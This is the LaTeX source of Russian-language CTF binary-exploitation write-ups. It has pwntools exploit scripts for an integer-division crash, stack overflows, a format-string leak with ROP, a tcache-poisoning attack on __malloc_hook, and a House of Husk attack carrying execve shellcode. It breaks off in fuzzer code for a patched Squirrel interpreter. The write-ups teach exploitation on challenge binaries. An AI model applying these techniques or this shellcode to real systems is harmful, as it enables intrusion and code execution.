%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Daily Laboratory Book
% LaTeX Template
% Version 1.0 (4/4/12)
%
% This template has been downloaded from:
% http://www.LaTeXTemplates.com
%
% Original author:
% Frank Kuster (http://www.ctan.org/tex-archive/macros/latex/contrib/labbook/)
%
% Important note:
% This template requires the labbook.cls file to be in the same directory as the
% .tex file. The labbook.cls file provides the necessary structure to create the
% lab book.
%
% The \lipsum[#] commands throughout this template generate dummy text
% to fill the template out. These commands should all be removed when 
% writing lab book content.
%
% HOW TO USE THIS TEMPLATE 
% Each day in the lab consists of three main things:
%
% 1. LABDAY: The first thing to put is the \labday{} command with a date in 
% curly brackets, this will make a new page and put the date in big letters 
% at the top.
%
% 2. EXPERIMENT: Next you need to specify what experiment(s) you are 
% working on with an \experiment{} command with the experiment shorthand 
% in the curly brackets. The experiment shorthand is defined in the 
% 'DEFINITION OF EXPERIMENTS' section below, this means you can 
% say \experiment{pcr} and the actual text written to the PDF will be what 
% you set the 'pcr' experiment to be. If the experiment is a one off, you can 
% just write it in the bracket without creating a shorthand. Note: if you don't 
% want to have an experiment, just leave this out and it won't be printed.
%
% 3. CONTENT: Following the experiment is the content, i.e. what progress 
% you made on the experiment that day.
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------------
%	PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} % 'openany' here removes the gap page between days, erase it to restore this gap; 'oneside' can also be added to remove the shift that odd pages have to the right for easier reading

\usepackage[ 
  backref=page,
  pdfpagelabels=true,
  plainpages=false,
  colorlinks=true,
  bookmarks=true,
  pdfview=FitB]{hyperref} % Required for the hyperlinks within the PDF
  
\usepackage{booktabs} % Required for the top and bottom rules in the table
\usepackage{float} % Required for specifying the exact location of a figure or table
\usepackage{graphicx} % Required for including images2
\usepackage{listings} % Used for programs' listings
\usepackage{tcolorbox} % For textboxes
\usepackage{hyperref}

\usepackage[english,russian]{babel}
\usepackage[utf8]{inputenc}
\usepackage[T2A]{fontenc}

\newcommand{\HRule}{\rule{\linewidth}{0.5mm}} % Command to make the lines in the title page
\setlength\parindent{0pt} % Removes all indentation from paragraphs

%----------------------------------------------------------------------------------------
%	DEFINITION OF EXPERIMENTS
%----------------------------------------------------------------------------------------

\newexperiment{easy1}{Crash me}
\newexperiment{easy2}{System health check}
\newexperiment{medium1}{You're a Wizard, Harry}
\newexperiment{medium2}{My anime list}
\newexperiment{hard}{Arbalest shop}
\newexperiment{reallife}{Squirrel as a service}

%---------------------------------------------------------------------------------------

\begin{document}

%----------------------------------------------------------------------------------------
%	TITLE PAGE
%----------------------------------------------------------------------------------------

\frontmatter % Use Roman numerals for page numbers
\title{
\begin{center}
\HRule \\[0.4cm]
{\Huge \bfseries CTF Code \\[0.5cm] \Large Writeups}\\[0.4cm] % Degree
\HRule \\[1.5cm]
\end{center}
}
\author{\Huge Binary analysis \\ \\[2cm]} % Your name and email address
\maketitle

\tableofcontents

\mainmatter % Use Arabic numerals for page numbers

%----------------------------------------------------------------------------------------
%	LAB BOOK CONTENTS
%----------------------------------------------------------------------------------------

% Blank template to use for new days:

%\labday{Day, Date Month Year}

%\experiment{}

%Text

%-----------------------------------------

%\experiment{}

%Text

%----------------------------------------------------------------------------------------

\labday{Easy}

\experiment{easy1}

\textbf{Теги:} ELF 64bit, C, baby\vspace{\baselineskip}

\begin{tcolorbox}
Этот код идеален! Он никогда не падает.

nc ctf-edu-t.orb.ru 31892
\end{tcolorbox}

Нам дается бинарь и порт для подключения. Толком анализировать его бессмысленно, по ассемблерному листингу понятно, что он принимает на вход два числа $a$ и $b$ типа \verb|int|, после чего проверяет, что $b$ не 0 и вычисляет их частное $\frac{a}{b}$. Собственно говоря, задача на Undefined Behavior (иногда можно встретить аббревиатуру UB) в С/С++. Если в этих языках поделить \verb|INT_MIN| на $-1$, то результат не влезет в тип int и произойдет SIGFPE (Fatal Arithmetic Error). Так как наша задача просто положить бинарь - это идеальный для нас вариант. Напишем сплойт (хотя в данной задаче проще руками, но для того, чтобы райтап выглядел более-менее равномерно будет приведен сплойт):
\begin{lstlisting}[language=Python, caption=Вызываем SIGFPE]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './problem'
REMOTE = True
INT_MIN = 0x80000000


def exploit():
    if REMOTE:
        r = remote('ctf-edu-t.orb.ru', 31892)
    else:
        r = process(BINARY)

    r.sendline(str(INT_MIN))
    r.sendline(str(-1))

    r.interactive()


if __name__ == '__main__':
    exploit()
\end{lstlisting}

И получаем флаг:
\begin{figure}[H]
\begin{center}

\includegraphics[width=0.7\linewidth]{files/baby-flag}
\end{center}
\caption{Вот бы всегда так}
\label{fig:baby-flag}
\end{figure}

%-----------------------------------------

\experiment{easy2}

\textbf{Теги:} ELF 32bit, C, Buffer Overflow, baby\vspace{\baselineskip}

\begin{tcolorbox}
Я написал программу, чтобы отслеживать состояние своего сервера. Но не уверен, что она так уж безопасна. Поможете проверить?

nc ctf-edu-t.orb.ru 31488
\end{tcolorbox}

Нам дается простенький бинарь, спрашивающий пароль. При декомпиляции первое, на что падает взгляд - использование функции \verb|gets()|. От этого буквально несет переполнением буфера. Остается понять, насколько его переполнять. Если взглянуть на пролог функции \verb|remote_system_health_check()|, то становится понятно, что содержимое стека в данном случае выглядит как \verb|ebp + buffer|. Размер буфера тоже виден ниже и равен $0x108$, что в более привычной для нас десятичной системе счисления равняется $264$. Таким образом, пайлоад будет выглядеть как: \verb|password + \x00 + padding + RA|. То есть требуемый пароль, нулевой байт для того, чтобы функция \verb|strcmp()| "правильно" сравнила строки, после чего забивание буфера и \verb|ebp| и перезапись адреса возврата. Остается понять, сколько же нужно забивать. Так как наш пароль выглядит как \verb|sUp3r_S3cr3T_P4s5w0rD| и его длина равна $21$, то из $264$ байт у нас остается $242$ (не забываем про нулевой байт в конце строки). Отлично, буфер забит. Нужно добавить еще $4$ байта для того, чтобы дойти до адреса возврата сквозь \verb|ebp|. И не стоит забывать, что функция \verb|gets()| автоматически добавляет в конец нулевой байт - то есть из получившихся $246$ нужно вычесть $1$ и получить $245$ - длину нашего смещения. Ну и еще стоит вспомнить, что адреса хранятся в little-endian. Таким образом, сплойт будет выглядеть следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='i386')

BINARY = './system_health_checker'
REMOTE = True


def exploit():
    if REMOTE:
        r = remote('ctf-edu-t.orb.ru', 31488)
    else:
        r = process(BINARY)

	r.recvline()

    padding = "A" * 245
    RA = p64(0x0804928c)

    r.sendline("sUp3r_S3cr3T_P4s5w0rD\x00" + padding + RA)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

После чего получаем флаг \verb|oren_ctf_baron_samedit!|

%----------------------------------------------------------------------------------------

\labday{Medium}

\experiment{medium1}

\textbf{Теги:} ELF 64bit, C, Buffer Overflow, Format String, baby\vspace{\baselineskip}

\begin{tcolorbox}
Теперь у каждого есть шанс стать настоящим волшебником!

nc ctf-edu-t.orb.ru 36784
\end{tcolorbox}

По своей сути задача является вариацией предыдущей - просто с небольшими изменениями в виде того, что теперь бинарь не позиционно-независимый и адреса меняются через ASLR. Поэтому задача просто посчитать адрес функции перед ее вызовом. И важно помнить, что теперь наш бинарь не 32, а 64 битный, то есть размеры регистров не $4$, а $8$ байт.
Начало остается точно таким же: мы отслыаем пароль и нулевой байт. Опять в прологе видим, что под буфер отведено $256$ байт. То есть суммарно на стеке "ненужного места" $264$ байта - $256$ буффера и $8$ \verb|rbp|. Длина нужного заклинания вместе с нулевым байтом - $13$ символов. То есть нужно забить $251$ байт, после чего можно смело совать адрес нужной функции и радостно получать флаг\footnote{Кстати, пару слов про возможности pwntools. Они как раз применяются в этом сплойте: очень часто достаточно долго считать, сколько же места нужно забить. Для этого в этом фреймворке есть замечательная функция cyclic, которая генерирует строку с помощью \href{https://en.wikipedia.org/wiki/De_Bruijn_sequence}{последовательности де Брёйна}. Таким образом достаточно просто найти буквы, которые после переполнения окажутся в IP и умножать на их вхождение в последовательность, для чего тоже существует отдельная функция.}.

Но как нам добыть нужный адрес? Если внимательно посмотреть, то можно увидеть, что \verb|printf| выводит строку без спецификатора, прям как есть. Это уязвимость форматной строки. Так как прототип \verb|printf|'a выглядит как 

\verb|extern int printf(const char *__restrict __format, ...)|, то можно получать адреса на стеке - \verb|printf| интерпретирует переменную, которую ему дали, как форматную строку, а в качестве, которые нужно в нее подставить будет брать значения стека. Таким образом можно получить адрес возврата из функции \verb|AAAAAAAA|, после чего отнять от этого числа разницу между ее адресом возврата и началом функции WIN и таким образом получить адрес функции WIN, который уже можно перезаписывать на стек и возвращаться по нему.

Окей, мы определились с нашим пайлоадом: заклинание + нулевой байт + мусор + нужный адрес. Но тут возникает подстава - программа падает. Если погуглить (или знать), то можно найти, что функции из libc требуют выравнивания стека. Проблема. Но можно воспользоваться ROP (Return Oriented Programming) - для начала вернуться из WIN-функции и таким образом выравнять стек. То есть, в конечно итоге, пайлоад будет выглядеть как: заклинание + нулевой байт + мусор + адрес возврата из WIN + адрес WIN.

Сплойт будет выглядеть примерно следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера с форматной строкой]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './wizards'
REMOTE = True

WIN_OFFSET = 0x13f
WIN_RET = 0x42


def leak_win_address(remote):
    remote.recvuntil("Enter your witch name:")
    log.info("Sending format string exploit...")
    remote.sendline("%p|" * 42)

    LEAKS = remote.recvuntil("enter your magic spell:").split("|")
    MAIN = int(LEAKS[-5], 16)
    log.info("Leaked MAIN function address: {}".format(hex(MAIN)))

    WIN = MAIN - WIN_OFFSET
    log.info("Leaked WIN function address: {}".format(hex(WIN)))

    return WIN


def exploit():
    if REMOTE:
        r = remote('ctf-edu-t.orb.ru', 36784)
    else:
        r = process(BINARY)

    win_addr = leak_win_address(r)
    win_ret = win_addr + WIN_RET

    payload = "Expelliarmus\x00"
    payload += 'A' * cyclic_find("cnaa")
    payload += p64(win_ret)
    payload += p64(win_addr)

    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

Таким образом, получаем флаг \verb|oren_ctf_Berners-Lee!|

%-----------------------------------------

\experiment{medium2}

\textbf{Теги:} ELF 64bit, C, gadgets, heap\vspace{\baselineskip}

\begin{tcolorbox}
Каждый любитель аниме хочет сохрнять список своих любимых тайтлов. Себе я написал вот такую программу, она, помимо того, что красивая и функциональная, еще и безопасная!

nc ctf-edu-t.orb.ru 37173
\end{tcolorbox}

Нам дам исполняемый файл, загрузчик и \verb|libc|. Запустив всё это можно увидеть довольно стандартное меню для pwn-тасков.

У нас есть ряд примитивов для создания каких-то объектов. По логике работы всё выглядит довольно просто. Мы можем создавать списки и добавлять в них элементы (тайтлы). Удалять тайтлы из списка и удалять сами списки. А также просматривать списки и изменять рецензии.

Разбирать все функции и описывать их мы не будем, вместо этого сосредоточим внимание только на важных деталях. Первое на что нам надо обратить внимание это контроль размера создаваемых объектов, точнее его отсутствие. Мы не контролируем размер объектов, которые создаются.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-add-anime}
\end{center}
\label{fig:mal-add-anime}
\end{figure}

Как можно заметить при добавлении нового аниме создаётся 3 чанка в динамической памяти (куче). Первый чанк служит объектом, который хранит в себе 2 указателя на имя и рецензию и ещё одно поле для оценки. Как можно заметить у нас есть чанки которые потенциально могут попасть в \verb|fastbin| и \verb|unsorted bin|, но изначально при освобождении они будут попадать в \verb|tcache|, потому что в задаче используется \verb|libc| $2.29$. Отсутствие контроля размера несколько сужает наши возможности, но это не критично.

Следующий момент, на который нам надо обратить внимание это «очистка» или удаления тайтлов и списков.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-del-anime}
\end{center}
\label{fig:mal-del-anime}
\end{figure}

Выше представлен код удаления аниме из списка. В целом это код удаления элемента из односвязного списка и это мало что нам даёт, потому что, по сути, мы теряем указатель на этот элемент и получается, что здесь всё безопасно.

Далее посмотрим на код удаления списка.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-del-list}
\end{center}
\label{fig:mal-del-list}
\end{figure}

Здесь сразу можно увидеть ошибку, которая заключается в том, что при удалении списка мы не зануляем указатель на сам список и не убираем элементы из односвязного списка. Таким образом удаление списка производит просто освобождение всех объектов, которые в нём хранятся, но просматривать мы его всё ещё можем. С помощью этой ошибки мы можем получить утечку памяти, а также произвести остальную эксплуатацию.

Для начала просто проверим, что это работает: создадим список, добавим в него элемент и удалим список, после чего просмотрим его.
\begin{figure}[H]
\begin{center}

\includegraphics[width=0.5\linewidth]{files/mal-get-libc}
\end{center}
\label{fig:mal-get-libc}
\end{figure}

Имя и отзыв пустые, потому что при просмотре мы пытаемся разыменовать указатель.

Также взглянем на код просмотра списка.
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/mal-empty-point}
\end{center}
\label{fig:mal-empty-point}
\end{figure}

Теперь попробуем использовать это для получения адреса \verb|libc|. Будем использовать одну из самых простых техник – помещение чанка в unsorted bin и чтение первых $8$ байт. Мы создаём список и заполняем его $8$-ю элементами, после чего освобождаем $7$ элементов и заполняем \verb|tcache|, далее удаляем список и просматриваем список. Одни из объектов описывающих тайтл будет находится в \verb|fastbin| и у него не будет перетёрт указатель на описание тайтла. А чанк с описанием попадёт в \verb|unsorted bin|, потому что в \verb|tcache| нет места, и мы получим утечку \verb|libc|.

Следующим нашим шагом будет произвольная запись. Писать мы будем в место, где лежит \verb|__malloc_hook|. Для произвольной записи мы создаём ещё один список, добавляем в него одну запись и удаляем список. После этого мы получаем имя записи (оно будет выглядеть как адрес внутри кучи) и с помощью функции изменения отзыва переписываем структуру tcache таким образом, что устанавливаем в начале списка адрес на место рядом с \verb|__malloc_hook| и новый выделенный чанк будет расположен там. В новый чанк мы запишем 19 байт паддинга и адрес \verb|one_gadget|-а для получения шелла.

Тут во время написания сплойта жизнь немного усложняется тем, что нам нужны специфичные версии \verb|ld| и \verb|libc|. Поэтому можно пропатчить бинарь, привязав \verb|libc| и \verb|ld| к нему, чтобы все в точности повторяло сервер организаторов:
\begin{verbatim}
patchelf --set-interpreter ld-linux-x86-64.so.2 MAL_linked
patchelf --set-rpath . MAL_linked
\end{verbatim}

После подобных рассуждений достаточно просто написать сплойт:
\begin{lstlisting}[language=Python, caption=Куча кода]
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwngun_craft import craft
from pwn import *

REMOTE = True

BINARY = "./MAL_linked"
LIBC = "./libc.so.6"
LD = "./ld-linux-x86-64.so.2"

one_shots = [0xe6b93, 0xe6b96, 0xe6b99, 0x10af39]

libc = ELF(LIBC)
if REMOTE:
    r = remote('ctf-edu-t.orb.ru', 37173)
else:
    r = process(BINARY)


def create_list():
    r.sendlineafter(b"> ", b"1")


def del_list(idx):
    r.sendlineafter(b"> ", b"2")
    r.sendlineafter(b": ", str(idx).encode())


def add_anime(idx, title, desc, score):
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b": ", str(idx).encode())
    r.sendlineafter(b": ", title)
    r.sendlineafter(b": ", desc)
    r.sendlineafter(b": ", str(score).encode())


def change_review(idx, title, desc):
    r.sendlineafter(b"> ", b"4")
    r.sendlineafter(b": ", str(idx).encode())
    r.sendlineafter(b": ", title)
    r.sendlineafter(b": ", desc)


def del_anime(idx, title):
    r.sendlineafter(b"> ", b"5")
    r.sendlineafter(b": ", str(idx).encode())
    r.sendlineafter(b": ", title)


def view_list(idx):
    r.sendlineafter(b"> ", b"6")
    r.sendlineafter(b": ", str(idx).encode())
    data = r.recvuntil(b"\n+-")[:-3]
    return data


def exploit():
    # Prepare for libc leak
    create_list() # idx 0
    for i in range(8):
        add_anime(0, b"test", b"test", 1)
    for i in range(7):
        del_anime(0, b"test")


    # Leak libc
    del_list(0)
    buf = view_list(0).split(b'\n')[4].split(b": ")[1].ljust(8, b'\x00')
    libc_leak = u64(buf)
    libc_base = libc_leak - 0x1eabe0
    print("[+] Leaked libc: ", hex(libc_base))

    # Leak last entry
    create_list() # idx 1
    add_anime(1, b"list1", b"list1", 2)
    del_list(1)
    buf = view_list(1).split(b'\n')[3].split(b": ")[1]
    print("[+] Leaked enrty: 0x", buf.hex(), sep='')

    # Overwrite tcache struct
    payload = p16(0x0) * 7 + p16(0x2) + p16(0x0) * 7 + p16(0x7)
    payload += p64(0x0) * 19 + p64(libc_base +
    		libc.symbols['__malloc_hook'] - 19)
    change_review(1, buf, payload)
    print("[+] Overwrite tcache successfully")

    # Write one_gadget to __malloc_hook
    create_list() # idx 2
    add_anime(2, b"\x00" * 19 + p64(libc_base + one_shots[3]), 
    		b"kekw", 1337)
    print("[+] Write one_gadget successfully")

    # Invoke shell
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b": ", b"2")
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

И получаем флаг \verb|oren_ctf_PetitPotam!|

%----------------------------------------------------------------------------------------

\labday{Hard}

\experiment{hard}

\textbf{Теги:} ELF 64 bit, C, Buffer overflow, heap\vspace{\baselineskip}

\begin{tcolorbox}
Открылся новый магазин по продаже арбалетов!

nc ctf-edu-t.orb.ru 33063
\end{tcolorbox}

Таска опять является вариацией предыдущей. В этот раз произошли изменения, которые можно назвать как и усложнением, так и упрощением. Усложняется общее понимание бинаря, если впервые столкнуться со статически слинкованным, но упрощается эксплуатация. Но по сути все остается аналогично предыдущей задаче. Итак, перед нами опять достаточно стандартное меню, где опять можно создавать и удалять примитивы в виде арбалетов.
Разбирать все опять не будем, более того, так как похоже на предыдущую задачу сразу пеерйдем к сути.

Во-первых, в функции \verb|sell_arbalest()|, при добавлении нового арбалета (также как и в функции \verb|insert_in_list()|) не проверяется выход за границы индекса 
\verb|g_list_index|. Это дает возможность переполнить глобальный буфер на куче и, таким образом, писать вниз .bss. Но писать мы можем только структуру, что немного усложняет задачу по сравнению с обычным переполнением.

Тут нужно небольшое отступление, чтобы понять, как работает функция \verb|printf()| в \verb|glibc| и как вообще можно проэксплуатировать данную уязвимость. Дело в том, что в \verb|libc| существует функция \verb|register_printf_function()|. Как можно догадаться из названия, она регистрирует новую форматную строку для \verb|printf()|. Эта функция вызывает \verb|__register_printf_specifier()|, что нам не очень интересно и аллоцирует на куче две структуры: \verb|__printf_function_table| и \verb|__printf_arginfo_table|. А вот это уже звучит интересно. Копнем чуть глубже и посмотрим, как это реализованно внутри:
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/heap-pft}
\end{center}
\label{fig:heap-pft}
\end{figure}

Все что тут происходит - поиск ненулевого указателя и, в случа если таковой есть, переход на какую-то обработку. Посмотрим, что там:
\begin{figure}[H]
\begin{center}

\includegraphics[width=1.0\linewidth]{files/heap-pat}
\end{center}
\label{fig:heap-pat}
\end{figure}
Вау! Да тут просто рай для шелл-кодера - просто берется указатель на функцию и выполняется. Без вопросов. Окей, супер. Становится понятно, что делать. Перезаписать указатель в \verb|__printf_arginfo_table| на шелл-код и наслаждаться жизнью!

Так как у нас переполнение буфера, мы можем подобрать оффсеты таким образом, что можно переопределить модификатор \verb|\%s| с помощью поля "цена" арбалета, которое мы можем контролировать и вводить туда адрес, а \verb|\%d| переопределяется указателем на кучу, где хранится имя пользователя. Таким образом, мы получаем возможность исполнения произвольного кода - помещаем его в имя польззователя, после чего аккуратно помещаем все по нужным смещениям и вызываем любой \verb|printf| с \verb|\%s| и \verb|\%d|.

Как бонус, нужно вспомнить, что по-умолчанию куча не является исполняемой и для начала нужно выставить x-байт с помощью функции \verb|_dl_make_heap_executable()|.

Таким образом, окончательный алгоритм сплойта будет выглядеть следующим образом:
\begin{itemize}
	\item Регистрируем пользователя с шелл-кодом в имени
	\item Продаем арбалеты, чтобы записать адрес \verb|_dl_make_heap_executable()|
	\item Сдвигаем все, чтобы попасть по нужным смещениям
	\item Спавним себе шелл
\end{itemize}

Таким образом, получаем следующий код:
\begin{lstlisting}[language=Python, caption=House of Husk]
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

REMOTE = True

BINARY = "./shop"

make_heap_exec = b'4205600' # Address of _dl_make_heap_executable
offset = b'4925936'
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

if REMOTE:
    r = remote('ctf-edu-t.orb.ru', 33063)
else:
    r = process(BINARY)


def register(username, password):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b': ', username)
    r.sendlineafter(b': ', password)


def login(username, password):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b': ', username)
    r.sendlineafter(b': ', password)


def sell(name, price, size=0):
    if size == 0:
        size = len(name) + 16

    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b': ', str(size).encode('utf-8'))
    r.sendlineafter(b': ', name)
    r.sendlineafter(b': ', price)


def change_price(idx, price):
    r.sendlineafter(b'> ', b'4')
    r.sendlineafter(b': ', str(idx).encode('utf-8'))
    r.sendlineafter(b': ', price)


def exploit():
    register(shellcode, shellcode)
    login(shellcode, shellcode)

    for i in range( 0, 67 ):
        sell(shellcode, make_heap_exec)

    # Rewrite __printf_function_table
    sell(b'abcd', offset)

    # Rewrite __printf_arginfo_table
    change_price(67, b'0')
    sell(b'a', offset, 1024)

    # Return valid address of printf_function_table
    change_price(67, offset)

    # Invoke shell
    r.sendlineafter(b'> ', b'7')
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

Получаем флаг \verb|oren_ctf_House_of_Husk!|

%----------------------------------------------------------------------------------------

\labday{Real life}

\experiment{reallife}

\textbf{Теги:} Interpreter, Real language, RCE, 0 Day\vspace{\baselineskip}

\begin{tcolorbox}
Мы создали крутой и безопасный интерпретатор языка \href{http://squirrel-lang.org/}{Squirrel}. Более того, он еще и онлайн!

nc ctf-edu-t.orb.ru 54354
\end{tcolorbox}

Таск представляет из себя патченный интерпретатор скриптового языка \href{http://squirrel-lang.org/}{Squirrel}, он спрашивает длину программы и сам скрипт, после чего исполняет их. Задача - найти способ получить шелл и прочитать флаг.

\textbf{Анализ}

Чтобы было интереснее, сервреный интерпретатор не загружает системные библиотеки и библиотеку \verb|iolib|, чтобы нельзя было заспавнить шелл штатными методами самого Squirrel'a:
\begin{lstlisting}[language=C]
// sq.c, line 188
	sqstd_register_bloblib(v);
	//sqstd_register_iolib(v);
	//sqstd_register_systemlib(v);
	sqstd_register_mathlib(v);
	sqstd_register_stringlib(v);
\end{lstlisting}

Поэтому придется искать RCE в интерпретаторе. Для начала, посмотрим как он загружает скрипт. Сразу же можно увидеть любопытный \verb|if|:
\begin{lstlisting}[language=C]
// squirrel/sqstdlib/sqstdio.cpp, line 354
if(us == SQ_BYTECODE_STREAM_TAG) { //BYTECODE
    sqstd_fseek(file,0,SQ_SEEK_SET);
    if(SQ_SUCCEEDED(sq_readclosure(v,file_read,file))) {
        sqstd_fclose(file);
        return SQ_OK;
    }
}
else { //SCRIPT
\end{lstlisting}

Ага! То есть вместо скрипта можно отсылать сразу байт-код. Пока непонятно, как нам это пригодится, но звучит весьма любопытно. Байт-код всегда лучше, можно провести руками какие-то манипуляции, которые не будет проводить JIT-компилятор. 

Анализируем дальше. Squirrel использует стековую виртуальную машину, то есть, в отличии от регистровой, все значения хранятся на стеке и работа происходит только со стеком (регистров вообще нет). Реализация интерпретатора байт-кода находится в \verb|squirrel /sqvm.cpp|, но из-за большого количества макросов код достаточно тяжелочитаем. Каждый код операции (\verb|SQInstruction|) может иметь до четырех аргументов (от \verb|arg0| до \verb|arg3|). Аргументы состоят из одного байта, за исключением arg1, размер которого составляет четыре байта. Все инструкции одинакового размера, поэтому все аргументы присутствуют всегда. Если какой-то опкод не имеет такого количества аргументов, дополнительные аргументы просто игнорируются. 

В данный момент можно пойти двумя путями решения:
\begin{enumerate}
\item Продолжать разбирать код руками (в данном случае такой подход сработает, пропатченная ошибка достаточно простая и хорошо заметна)
\item Попробовать пофаззить. Способ более универсальный, но требует куда больше знаний. В данном райтапе будет разобран именно он.
\end{enumerate}

Чтобы было еще интереснее, напишем собственный фазер. Благо, тут ничего сложного нет, поэтому можно заодно потренироваться. 

Начнем с того, что напишем функцию, которая будет конвертировать инструкции байт-кода в замыкания, а затем передавать их интерпретатору:
\begin{lstlisting}[language=C++,
                   directivestyle={\color{black}}
                   emph={int,char,double,float,unsigned},
                   emphstyle={\color{blue}}
                  ]
// squirrel/sq/sq_fuzz.cpp

// make a closure from bytes
SQClosure* closureFromBytes(HSQUIRRELVM vm, const SQInstruction* bytecode, 
		size_t count) {
    SQFunctionProto *func = SQFunctionProto::Create(
        _ss(vm),
        count + 1, /* ninstructions */
        0, /* nliterals */
